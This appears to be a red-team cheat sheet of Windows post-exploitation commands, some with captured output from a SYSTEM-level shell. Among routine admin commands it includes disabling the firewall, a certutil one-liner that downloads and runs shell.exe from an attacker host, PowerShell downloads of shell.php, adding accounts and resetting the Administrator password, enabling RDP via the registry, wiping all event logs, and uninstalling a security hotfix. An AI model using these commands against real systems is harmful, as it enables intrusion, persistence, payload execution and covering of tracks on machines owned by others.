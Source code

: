 Windows Administration and Security
-----------------------------------


#RDP from Linux
rdesktop -u Administrator -p test1test! x.x.x.x
xfreerdp -f -u Administrator -p test1test! x.x.x.x



#Disable firewall win xp
C:\WINDOWS\system32>netsh firewall set opmode mode=DISABLE
netsh firewall set opmode mode=DISABLE
Ok.



#Disable firewall 10/8/7/server 2008/Vista
c:\windows\system32\inetsrv>netsh advfirewall set currentprofile state off
netsh advfirewall set currentprofile state off
Ok.



#Shows temporary storage location
C:\>echo %temp%
echo %temp%
C:\Windows\TEMP



#Python file hosting on Linux (Red Team)
#Save file in directory Shell.exe
sudo python2.7 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...



#Windows (Blue team) to download the file from cmdline
#Downloads Shell.exe
#Saves shell.exe in %temp%
#Runs %temp%/shell.exe
C:\Users\Blue Team> certutil -urlcache -split -f http://x.x.x.x/shell.exe %temp%/shell.exe && %temp%/shell.exe



#List Windows running processes
C:\WINDOWS\system32>tasklist
tasklist

Image Name                   PID Session Name     Session#    Mem Usage
========================= ====== ================ ======== ============
System Idle Process            0 Console                 0         28 K
System                         4 Console                 0        236 K
smss.exe                     316 Console                 0        384 K



#Add a Windows user
C:\WINDOWS\system32>net user username userpassword /ADD
net user username userpassword /ADD
The command completed successfully.



#Add to domain
C:\WINDOWS\system32>net user username password /ADD /DOMAIN



#List Windows Users
C:\WINDOWS\system32>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
username                 Administrator            Guest                    
HelpAssistant            john                     SUPPORT_388945a0         
test                     



#Change Administrator password
c:\windows\system32>net user Administrator test1test!
net user Administrator test
The command completed successfully.



#List Windows local user directories
C:\WINDOWS\system32>dir /b "C:\Users"      
dir /b "C:\Users"
add
Administrator
All Users
john



#Windows show Date
C:\WINDOWS\system32>date /t
date /t
ãîæ 31/10/2019 



#Windows show Time
C:\WINDOWS\system32>time /t
time /t
11:49 ææ



#Windows show uptime and system information
C:\WINDOWS\system32>systeminfo 
systeminfo 



#Windows write into a file
C:\WINDOWS\system32>echo test > test
echo test > test



#Windows read file contents
C:\WINDOWS\system32>type test
type test
test 



#Windows show current directory
c:\Users>echo %CD%
c:\Users>



#Windows show current role
c:\Users>whoami
whoami
nt authority\system



#NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs; these accounts have access to most system objects. 



#Windows List services
c:\windows\system32>net start
net start
These Windows services are started:

   Application Experience
   Application Host Helper Service
   Base Filtering Engine



#Stop/Start a Windows service
net stop <name>
net start <name>
net pause <name>
net continue <name>



#Enable RDP (Remote Desktop Protocol) via the registry in cmdline
c:\windows\system32>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
The operation completed successfully.



#Windows open a link using the default browser
c:\windows\system32>start "link" https://google.com



#Windows Powershell clear eventviewer logs
PS>wevtutil el | Foreach-Object {wevtutil cl "$_"}



#Windows remove a hotfix
C:\Users\Blue Team\Desktop>wusa.exe /uninstall /KB:3014442  
wusa.exe /uninstall /KB:3014442 



#Save shell.php in the directory you are running the python server on the Red Team host(Linux)
sudo python2.7 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...



#Windows Powershell download a file
$client = new-object System.Net.WebClient
$client.DownloadFile("http://x.x.x.x/shell.php","c:\location\shell.php")
$client.DownloadFile("http://x.x.x.x/shell.php","shell.php")
